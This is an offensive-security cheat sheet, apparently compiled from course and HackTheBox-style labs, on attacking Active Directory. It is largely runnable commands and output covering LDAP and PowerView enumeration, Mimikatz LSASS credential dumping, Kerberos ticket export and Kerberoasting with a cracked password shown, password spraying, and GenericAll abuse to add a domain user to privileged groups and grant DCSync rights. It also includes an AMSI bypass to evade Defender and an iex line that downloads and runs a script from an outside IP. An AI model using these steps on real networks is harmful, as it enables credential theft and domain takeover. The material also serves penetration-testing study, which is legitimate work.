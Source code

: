 # Active Directory

## whoEnumeration

### Traditional approach

```
net user /domain ###enumerate all users in the entire domain
net user jeff_admin /domain
net group /domain
net group "Sales Department" /domain
```

### **Modern approach**

```
// SoPS C:\Users\offsec.CORP> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent
Domain()
Forest : corp.com
DomainControllers : {DC01.corp.com}
Children : {}
DomainMode : Unknown
DomainModeLevel : 7
Parent :
PdcRoleOwner : DC01.corp.com
RidRoleOwner : DC01.corp.com
InfrastructureRoleOwner : DC01.corp.com
Name : corp.com
```

```
powershell -ep bypass
```

{% code title="Script which will create the full LDAP path required for enumeration" overflow="wrap" lineNumbers="true" %}
```
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"
$LDAP
```
{% endcode %}

{% code title="Script output showing the full LDAP path" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\stephanie> .\enumeration.ps1
LDAP://DC1.corp.com/DC=corp,DC=com
```
{% endcode %}

0x30000000 (decimal 805306368) to the filter property to enumerate all users in the domain

{% code title=".\enumerate.ps1" overflow="wrap" lineNumbers="true" %}
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domainObj.PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)

$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.filter="samAccountType=805306368"
$result = $dirsearcher.FindAll()

Foreach($obj in $result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }

    Write-Host "-------------------------------"
}

```
{% endcode %}

#### Resoving Nested Groups

```
domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(name=Secret_Group)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
$obj.Properties.member
}
```

## **PowerView - Currently logged on users**

```
PS C:\Tools\active_directory> Import-Module .\PowerView.ps1

enumerate logged-in users with Get-NetLoggedon
PS C:\Tools\active_directory> Get-NetLoggedon -ComputerName client251

Get-NetSession will return all active sessions, in our case from the domain controller
PS C:\Tools\active_directory> Get-NetSession -ComputerName dc01
```

### **Enumerate thorugh Service Principal Names**

While Microsoft has not documented a list of searchable SPN’s there are extensive lists available online.

```
update previously script with this filter
$Searcher.filter="serviceprincipalname=*http*"
```

```
```

## **Authentication**

1. **NTLM**
2. **Kerberos**
3. **Cached Credential Storage and Retrieval**
   1. execute Mimikatz directly from memory using an injector like PowerShell (https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke- ReflectivePEInjection.ps1)or use a built-in tool like Task Manager to dump the entire LSASS process memory, move the dumped data to a helper machine, and from there, load the data into Mimikatz.
4.  Service Account Attacks

    1. Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'H TTP/CorpWebServer.corp.com'
    2. PS C:\Users\offsec.CORP> klist
    3. mimikatz # kerberos::list /export


5. Low and Slow Password Guessing
   1. PS C:\Users\Offsec.corp> net accountss
   2. Spray-Passwords.ps ([ https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1](https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1))



### Kerberoasting

```
kali@kali:~$ sudo apt update && sudo apt install kerberoast
...
kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offse
c@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
found password for ticket 0: Qwerty09! File: 1-40a50000-Offsec@HTTP~CorpWebServer.cor
p.com-CORP.COM.kirbi
All tickets cracked!
```

{% hint style="info" %}
The Invoke-Kerberoast.ps**1** [ **https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-**\
**Kerberoast.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1)**)** script extends this attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat, completely eliminating the need for Mimikatz in this attack.
{% endhint %}

### Making use of "GenericAll"

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net user john abc123! /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net group "Exchange Windows Permissions" john /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net localgroup "Remote Management Users" john /add
The command completed successfully.

```

### Download PowerView

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Bypass-4MSI
[+] Success!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).downloadstring("http://10.10.16.12:8080/PowerView.ps1")

```

The Bypass-4MSI command is used to evade defender before importing the script. Next, we can use the Add-ObjectACL with john's credentials, and give him DCSync rights.



```
$SecPassword = ConvertTo-SecureString 'abc123!!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\john', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync
```

##

```
```

